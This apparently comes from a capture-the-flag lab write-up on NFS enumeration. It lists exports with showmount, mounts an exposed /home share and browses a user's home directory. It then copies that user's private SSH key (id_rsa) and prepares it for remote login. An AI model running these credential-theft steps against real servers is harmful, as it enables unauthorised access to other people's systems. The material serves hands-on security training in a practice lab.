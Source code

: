 Which port contains the service we're looking to enumerate?
- **2049**.

Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
```bash
$ showmount -e 10.10.56.114
Export list for 10.10.56.114:
/home *
```
It's **/home**.

Time to mount the share to our local machine! First, use `mkdir /tmp/mount` to create a directory on your machine to mount the share to. This is in the /tmp directory- so be aware that it will be removed on restart.

Then, use the `mount` command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?
```bash
$ sudo mount -t nfs 10.10.56.114:home /tmp/mount/ -nolock
[sudo] password for kali: 
$ cd /tmp/mount   
$ ls
cappucino
```
It's **cappucino** directory.

Have a look inside this directory, look at the files. Looks like  we're inside a user's home directory...
```bash
$ ls -la cappucino 
total 36
drwxr-xr-x 5 kali kali 4096 Jun  4  2020 .
drwxr-xr-x 3 root root 4096 Apr 21  2020 ..
-rw------- 1 kali kali    5 Jun  4  2020 .bash_history
-rw-r--r-- 1 kali kali  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali 3771 Apr  4  2018 .bashrc
drwx------ 2 kali kali 4096 Apr 22  2020 .cache
drwx------ 3 kali kali 4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 kali kali  807 Apr  4  2018 .profile
drwx------ 2 kali kali 4096 Apr 22  2020 .ssh
-rw-r--r-- 1 kali kali    0 Apr 22  2020 .sudo_as_admin_successful
```

Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?
- **.ssh**.

Which of these keys is most useful to us?
- **id_rsa**.

Copy this file to a different location your local machine, and change the permissions to "600" using "chmod 600 [file]".
```bash
$ cp cappucino/.ssh/id_rsa ~
$ cd ~ 
$ chmod 600 id_rsa
```
